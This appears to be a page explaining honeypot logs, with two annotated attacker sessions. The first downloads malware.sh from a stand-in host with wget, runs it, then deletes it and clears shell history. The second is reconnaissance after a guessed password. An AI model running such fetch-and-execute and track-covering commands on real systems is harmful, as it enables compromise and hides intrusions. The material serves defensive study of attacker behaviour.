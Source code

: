 ```bash

# List what's in the root directory
$ ls /
bin   boot  dev  etc  home  lib  media  mnt  opt  proc  root  run  sbin  srv  tmp  usr  var

# Go into /tmp to upload malware (tmp is writable!)
$ cd /tmp

# Download malware payload (they think this is a real system)
$ wget http://badguy-server.com/malware.sh
--2025-04-26 18:01:02--  http://badguy-server.com/malware.sh
Resolving badguy-server.com... 198.51.100.22
Connecting to badguy-server.com... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1240 (1.2K) [application/x-sh]

# Give it permissions
$ chmod +x malware.sh

# Execute it
$ ./malware.sh

# Try to cover tracks
$ rm malware.sh

# Try to clear history
$ history -c

# Close session
$ exit
```

* Here, we see that attacker believes that it is a real system
* As seen, they download a malware and try to run it.
  * This can be a miner, a botnet, etc.
* They deleted the file and deleted the history.


Now, another log for now an advanced user.

```bash
login as: admin
admin@honeypot's password: (attacker guessed or default password accepted)

Last login: Fri Apr 26 19:00:00 2025
# First: who am I?
$ whoami
admin

# Next: check kernel and system info
$ uname -a
Linux ubuntu 5.4.0-26-generic #30-Ubuntu SMP x86_64 GNU/Linux

# Check disk info - is it real?
$ df -h
Filesystem      Size  Used Avail Use% Mounted on
/dev/root        20G   5G   14G  26% /

# Check running processes
$ ps aux
root         1  0.0  0.1  22532  3724 ?        Ss   19:00   0:00 /sbin/init
root        11  0.0  0.0  20136  2892 ?        Ss   19:00   0:00 /usr/sbin/sshd

# Scan localhost ports
$ netstat -tulnp
```